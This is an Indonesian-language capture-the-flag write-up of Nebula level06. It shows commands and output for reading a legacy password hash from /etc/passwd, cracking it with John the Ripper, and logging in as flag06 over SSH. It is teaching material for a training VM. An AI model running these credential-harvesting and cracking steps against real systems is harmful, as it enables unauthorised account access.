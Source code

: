 +++
author = "kernel-panic"
categories = ["Security", "Nebula"]
date = "2018-01-19T11:57:00+00:00"
description = "Security Wargames"
featured = "7r8KfsEZ_o.jpg"
featuredalt = "Nebula Level06"
featuredpath = "https://images2.imgbox.com/5b/95"
linktitle = ""
title = "Exploit Exercises - Nebula Level06"
type = "post"

+++
Dalam bagian tentang {{< url-link "level06" "https://exploit-exercises.com/nebula/level06/" "target">}} memberitahu bahwa "kredensial akun flag06 berasal dari sistem unix lawas."

Saya percaya petunjuk itu menjelaskan secara persis apa yang kita butuhkan untuk memecahkan level ini.

Sistem unix lawas menyimpan hash password di /etc/passwd yang world-readable, sedangkan dalam sistem modern menggunakan file shadow untuk menyimpan informasi sensitif ini.

Untuk memecahkan apakah dugaan saya benar atau salah, saya pun menggunakan perintah grep untuk mengkonfirmasinya.

        level06@nebula:~$ grep flag06 /etc/passwd
        flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh

Dan kita bisa melihat baris untuk akun flag06 berisi hash kata sandi dan bukan 'x' yang akan  ditampilkan pada sistem modern dengan memanfaatkan /etc/shadow.

Lalu, kita bisa menggunakan _John the Ripper_ untuk memecahkan hash tersebut.

    root@kernel-panic:~# john flag06.txt --show
    flag06:hello:993:993::/home/flag06:/bin/sh
    
    1 password hash cracked, 0 left

John dengan cepat mengidentifikasi kata sandinya adalah 'hello'. Mari kita coba:

        level06@nebula:~$ ssh flag06@localhost
        The authenticity of host 'localhost (127.0.0.1)' can't be established.
        RSA key fingerprint is 67:fe:f4:09:cd:0f:ba:dd:87:2b:73:2c:80:31:c2:68.
        Are you sure you want to continue connecting (yes/no)? yes
        Warning: Permanently added 'localhost' (RSA) to the list of known hosts.
    
            _   __     __          __
           / | / /__  / /_  __  __/ /___ _
          /  |/ / _ \/ __ \/ / / / / __ `/
         / /|  /  __/ /_/ / /_/ / / /_/ /
        /_/ |_/\___/_.___/\__,_/_/\__,_/
    
        exploit-exercises.com/nebula
    
    
        For level descriptions, please see the above URL.
    
        To log in, use the username of "levelXX" and password "levelXX", where
        XX is the level number.
    
        There are currently 20 levels (00 - 19).
    
    
    
        flag06@localhost's password:
        Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)
    
        * Documentation:  https://help.ubuntu.com/
        New release '12.04 LTS' available.
        Run 'do-release-upgrade' to upgrade to it.
    
    
        The programs included with the Ubuntu system are free software;
        the exact distribution terms for each program are described in the
        individual files in /usr/share/doc/*/copyright.
    
        Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
        applicable law.
    
        flag06@nebula:~$ getflag
        You have successfully executed getflag on a target account

Kata sandi tersebut cocok dan saya berhasil masuk ke akun flag06 dan menjalankan getflag.

<div class="videoyoutube"><div class="video-responsive"><iframe allowfullscreen="1" class="embedded-video-large" src="https://www.youtube.com/embed/31EF657-8aE?rel=0"></iframe></div></div>